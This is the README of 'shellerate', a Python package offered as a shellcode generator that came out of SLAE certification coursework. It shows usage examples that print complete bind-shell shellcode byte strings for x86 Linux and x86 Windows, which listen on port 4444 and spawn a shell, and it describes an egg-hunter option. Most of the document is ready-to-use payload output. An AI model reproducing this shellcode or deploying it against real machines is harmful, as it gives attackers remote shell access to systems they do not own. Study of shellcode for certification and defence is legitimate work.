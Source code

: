 # Shellerate

## Introduction

This the Changelog file for the shellerate project. 'shellerate' is pun between
'shell' and 'scellerato', the Italian word for 'wicked'.

'shellerate' is a shellcode generation framework born from the assignments I
took for the SecurityTube Linux Assembly Expert certification process.

You can feature custom encoders, custom crypters, polymorphism and all stuff I
learned in the SLAE certification process.

shellerate is Python3 package and supported architectures and operating system
are limited to:

* x86/Linux
* x86/Win

Other architectures and operating systems will be added in the future.

## Installation

To install shellerate to your system you can issue the following command:

> pip install shellerate

## Available payloads

### TCP Bind shell shellcode

This shellcode will bind on a given port, waiting for clients and spawn a shell
on the incoming connection.

#### Platform

At the moment, this shellcode is available only for x86/Linux platform.

#### Features

| Feature | Supported |
|---------|-----------|
| Encoding | Yes |
| Crypter | No |
| Egg Hunter | Yes |

#### Usage

Basic usage:

```python
from shellerate.payloads.bind_shellcode import BindShellcode

b=BindShellcode(4444, 'x86', 'lin')
b.generate()
print("Shellcode: %s" % b.shellcode())
'\\x31\\xc0\\x89\\xc3\\x89\\xc1\\x89\\xc2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\x31\\xc0\\x66\\xb8\\x69\\x01\\x31\\xc9\\x51\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x31\\xc9\\x31\\xc0\\x66\\xb8\\x6b\\x01\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x51\\x89\\xce\\x89\\xe1\\x89\\xe2\\xcd\\x80\\x89\\xc3\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80'
```

If you want to create a bind shell shellcode for windows x86, you can call this
way:
```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'win')
b.generate()
print("Shellcode: %s" % b.shellcode())
'\\xfc\\xe8\\x82\\x00\\x00\\x00\\x60\\x89\\xe5\\x31\\xc0\\x64\\x8b\\x50\\x30\\x8b\\x52\\x0c\\x8b\\x52\\x14\\x8b\\x72\\x28\\x0f\\xb7\\x4a\\x26\\x31\\xff\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\xc1\\xcf\\x0d\\x01\\xc7\\xe2\\xf2\\x52\\x57\\x8b\\x52\\x10\\x8b\\x4a\\x3c\\x8b\\x4c\\x11\\x78\\xe3\\x48\\x01\\xd1\\x51\\x8b\\x59\\x20\\x01\\xd3\\x8b\\x49\\x18\\xe3\\x3a\\x49\\x8b\\x34\\x8b\\x01\\xd6\\x31\\xff\\xac\\xc1\\xcf\\x0d\\x01\\xc7\\x38\\xe0\\x75\\xf6\\x03\\x7d\\xf8\\x3b\\x7d\\x24\\x75\\xe4\\x58\\x8b\\x58\\x24\\x01\\xd3\\x66\\x8b\\x0c\\x4b\\x8b\\x58\\x1c\\x01\\xd3\\x8b\\x04\\x8b\\x01\\xd0\\x89\\x44\\x24\\x24\\x5b\\x5b\\x61\\x59\\x5a\\x51\\xff\\xe0\\x5f\\x5f\\x5a\\x8b\\x12\\xeb\\x8d\\x5d\\x68\\x33\\x32\\x00\\x00\\x68\\x77\\x73\\x32\\x5f\\x54\\x68\\x4c\\x77\\x26\\x07\\xff\\xd5\\xb8\\x90\\x01\\x00\\x00\\x29\\xc4\\x54\\x50\\x68\\x29\\x80\\x6b\\x00\\xff\\xd5\\x6a\\x08\\x59\\x50\\xe2\\xfd\\x40\\x50\\x40\\x50\\x68\\xea\\x0f\\xdf\\xe0\\xff\\xd5\\x97\\x68\\x02\\x00\\x11\\x5c\\x89\\xe6\\x6a\\x10\\x56\\x57\\x68\\xc2\\xdb\\x37\\x67\\xff\\xd5\\x57\\x68\\xb7\\xe9\\x38\\xff\\xff\\xd5\\x57\\x68\\x74\\xec\\x3b\\xe1\\xff\\xd5\\x57\\x97\\x68\\x75\\x6e\\x4d\\x61\\xff\\xd5\\x68\\x63\\x6d\\x64\\x00\\x89\\xe3\\x57\\x57\\x57\\x31\\xf6\\x6a\\x12\\x59\\x56\\xe2\\xfd\\x66\\xc7\\x44\\x24\\x3c\\x01\\x01\\x8d\\x44\\x24\\x10\\xc6\\x00\\x44\\x54\\x50\\x56\\x56\\x56\\x46\\x56\\x4e\\x56\\x56\\x53\\x56\\x68\\x79\\xcc\\x3f\\x86\\xff\\xd5\\x89\\xe0\\x4e\\x56\\x46\\xff\\x30\\x68\\x08\\x87\\x1d\\x60\\xff\\xd5\\xbb\\xf0\\xb5\\xa2\\x56\\x68\\xa6\\x95\\xbd\\x9d\\xff\\xd5\\x3c\\x06\\x7c\\x0a\\x80\\xfb\\xe0\\x75\\x05\\xbb\\x47\\x13\\x72\\x6f\\x6a\\x00\\x53\\xff\\xd5'
```


Usage with egg hunter

```python
from shellerate.payloads.bind_shellcode import BindShellcode
b=BindShellcode(4444, 'x86', 'linux')
b.egg_hunter()
b.generate()
sc = b.shellcode()

print("bindshell shellcode: " + b.shellcode())
print("egghunter shellcode: " + b.get_egg_hunter_code())
```
